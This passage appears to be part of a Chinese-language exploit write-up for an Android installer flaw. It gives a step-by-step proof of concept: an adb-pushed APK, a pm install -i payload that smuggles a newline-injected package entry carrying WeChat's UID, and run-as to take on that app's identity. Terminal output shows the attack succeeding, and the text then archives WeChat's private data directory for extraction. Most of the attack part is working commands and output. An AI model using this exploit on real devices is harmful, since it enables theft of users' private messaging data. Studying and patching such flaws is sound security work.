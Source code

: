 2、推送**任意**一个 app 到 /data/local/tmp 目录下：  
```
adb push test.apk /data/local/tmp/test.apk

```  
  
3、执行相关 POC ，这里将下述的 UID 替换为微信的 UID（ victim 这个名称也是可以更改）：  
```
PAYLOAD="@null
victim [UID] 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/test.apk

```  
  
将上述的代码在 ADB Shell 命令框中运行，效果如下：  
```
alioth@shell:/ $ PAYLOAD="@null
> victim 10260 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
alioth@shell:/ $ pm install -i "$PAYLOAD" /data/local/tmp/test.apk
Success
alioth@shell:/ $

```  
  
上述的 victim [uid] 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null 解释如下：  
- 第三个字段，数字 1 表示该包是否可调试。  
  
- 第四个字段，/data/user/0是成为 privapps 所需的数据路径，如上述分析所说。  
  
- 第五个字段则用于派生 SELinux 域，并设置为适用于任何针对 Target API >= 28 的应用程序的通用值。  
  
- 其他字段对于 run-as 来说并不重要。  
  
4、切换为微信用户：  
```
alioth@shell:/ $ run-as victim
alioth@u0_a260:/data/user/0 $ id
uid=10260(u0_a260) gid=10260(u0_a260) groups=10260(u0_a260),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs),50260(all_a260) context=u:r:runas_app:s0:c4,c257,c512,c768
alioth@u0_a260:/data/user/0 $

```  
  
可见此时的 shell 已经是微信 UID 了。通过命令也可查看目标应用数据（其它应用没有权限），如图所示：![](https://mmbiz.qpic.cn/mmbiz_png/UyDnibamFDULtYIESl41kW5SneJop6XknLDS6IrXR7kTIRes6PARHcHgiaRUJABRmX31b6LZZ1lEVe9z3ibXX3XKg/640?wx_fmt=png&from=appmsg "")  
  
## 提取数据   
  
上述操作我们成功获得目标应用权限，但是这个用户只有应用目录的权限，没法在其他目录创建文件，因此我们再借助另一个 ADB Shell 终端，先把文件创建好再写入数据，如下：  
```
alioth@shell:/ $ mkdir /data/local/tmp/mm/
alioth@shell:/ $ touch /data/local/tmp/mm/mm.tar
alioth@shell:/ $ chmod -R 0777 /data/local/tmp/mm/
alioth@shell:/ $ run-as victim
alioth@u0_a260:/data/user/0 $ tar -cf /data/local/tmp/mm/mm.tar com.tencent.mm

```  
  